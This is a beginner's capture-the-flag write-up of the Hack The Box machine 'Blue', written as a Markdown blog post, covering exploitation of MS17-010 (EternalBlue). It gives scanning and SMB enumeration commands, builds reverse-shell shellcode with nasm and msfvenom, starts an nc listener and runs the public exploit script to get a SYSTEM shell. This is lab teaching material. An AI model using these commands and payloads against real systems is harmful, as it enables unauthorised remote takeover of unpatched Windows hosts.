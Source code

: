 ```yaml
---
title: "HTB - Blue"
date: 2021-01-30T16:37:44+01:00
categories: ["hacking","write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/Blue.png"
---
```

A good ol' vuln to get starting!

This will be my first real tutorial, so I'll try to explain the basics of what I am doing. Please bear in mind that I am very new to hacking, probably like you are. I am merely sharing my knowledge and by doing so I am making sure I understood what I did. Please correct me if you find anything wrong, or ask question if you need to! I'll be happy to engage a discussion.

NB : The following notes use $target_ip = IP of the target machine. This is more convenient when machine changes its IP.

A note about “sudo”. I am a firm believer in the “least privileges” methodology, like never use your admin account on AD domain for day to day use, and never use sudo if you don't need to. For example, search a package with “apt search X” and install it wish "sudo apt install X". However, in case of Kali and nmap, I noticed that in quite often requires root depending of the flag you use. Since, I am no expert (yet), I will l run nmap (and many other Kali tools) with sudo! I do not log in as root, but as a regular user I created but I almost always use “sudo”.

I will process simply by following the 5 stages of Ethical Hacking.

##  Recon

Doing HTB boxes, there will be no proper reconnaissance phase; since Googling for the box will obviously leave to solution which we do not want... Let's just say we can use the name to have a guess. Here, a Windows machine called Blue probably means we'll have to deal with MS17-010.. So I'll pay close attention to anything related to SMB.

##  Enum

Let's fire a quick nmap scan ;

```text
sudo nmap -T4 -p- $target_ip
```

![](/images/2021/01/2021-01-27_14-21.png)

This quick nmap command will scan for all TCP ports, then, once done we will gather more in depth results by adding -A flag on specified ports (the one that responded from the previous step).

```text
sudo nmap -T4 -A -p $target_ip
```

![](/images/2021/01/2021-01-27_14-22.png)

NB : here, I just ignored some high ports 49xxx/tcp because this is not a real life test and I know that what I am looking for is related to SMB (445/tcp).

In parallel, I like to launch a Nessus basic scan on ALL ports (thanks @tcm for the tips) :

![](/images/2021/01/2021-01-27_13-21.png)

Like we guessed, it seems we will have to play with MS17-010 vuln, let's check that with nmap dedicated script :

```text
sudo nmap --script smb-vuln-ms17-010 $target_ip
```

![](/images/2021/01/2021-01-27_14-35.png)

It is becoming more and clear that this machine is vulnerable to ms17-10.

Since saw some SMB running; let's enumerate it :

NB : note the quadruple "", this is because it normally has only 2 but need escaping each time, hence the 4.

```text
smbclient -L $target_ip
```



![](/images/2021/01/2021-01-27_14-42.png)

Since we found a few share let's try to connect to each one of them anonymously, for example with the share called "Share":

```text
smbclient $target_ipShare
```

![](/images/2021/01/2021-01-27_14-46.png)

Keep notes of what shares you have access to. You may differentiate where you have "listing" access and where you don't.

Now let's try to gain exploit this machine.

##  Gaining Access (exploitation)

My goal is to exploit without MetaSploit, if you don't know why, check this blog post.

Searching on the internet, I came around this GitHub that seems to be able to do the job: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010).

According to the repo we need to install impacket and mysmb, I'll let you do that, then we can use checker.py to see if we find any named pipe (since it is a safe way to exploit this) :

cd into the clone repo then run :

```text
python2 checker.py $target_ip
```

![](/images/2021/01/2021-01-27_14-54.png)

Unfortunately, we have no named pipes available... However, according to the repo :

> **Eternalblue** requires only access to IPC$ to exploit a target while other exploits require access to named pipe too. So the exploit always works against Windows &lt; 8 in all configuration (if tcp port 445 is accessible). However, Eternalblue has a chance to crash a target higher than other exploits.
>
> **Eternalchampion** requires access to named pipe. The exploit has no chance to crash a target.
>
> **Eternalromance** requires access to named pipe. The exploit can target Windows &lt; 8 because the bug for info leak is fixed in Windows 8. The exploit should have a chance to crash a target lower than Eternalblue. I never test a reliable of the exploit.
>
> **Eternalsynergy** requires access to named pipe. I believe this exploit is modified from Eternalromance to target Windows 8 and later. Eternalsynergy uses another bug for info leak and does some trick to find executable memory (I do not know how it works because I read only output log and pcap file).

Remember or recon phase and that Blue machine name? Looks like we are facing EternalBlue : we have seen that we have access to $IPC Share, Windows &lt; 8 (Windows 7 here), and port 445/tcp is open.

In order to exploit this we need to use the following (still according to the repo) :

```text
eternalblue_exploit7.py <ip> <shellcode_file> [numGroomConn]
```

The repo tells us that there is 2 shellcode, one for each arch.

However, we are not really sure which arch is our target. So we will assemble both shellcode :

cd into the shellcode dir and :

```text
nasm -f bin eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
```

Once this is done, we create our payloads like so :

```text
msfvenom -p windows/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -f raw -o sc_x86_msf.bin EXITFUNC=thread msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
```

Finally we "join" the two payloads together (with the provided python script from the repo) so that we can check both arch at the same time and hopefully get a shell :

```text
cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin python2 eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

[Many thanks to this website for the info on how to assemble the shellcode](https://redteamzone.com/EternalBlue/).

Now start a listener to receive the reverse shell on port 4444 (or the one you used with he msfvenom command):

```text
nc -lvp 4444
```

Let it open and finally, we run our command with the generated sc_all.bin as payload :

```text
python2 eternalblue_exploit7.py $target_ip ./shellcode/sc_all.bin
```

![](/images/2021/01/2021-01-27_15-45_1.png)

Bingo, we have a shell as `SYSTEM`!

![](/images/2021/01/2021-01-27_15-48.png)

Here, in a normal pentest situation, we would make sure to have a way to maintain access. But this is HackTheBox, we will simply harvest our flags. :)

##  Maintaining Access

Not used here. :)

##  Covering Tracks

Not used here. :)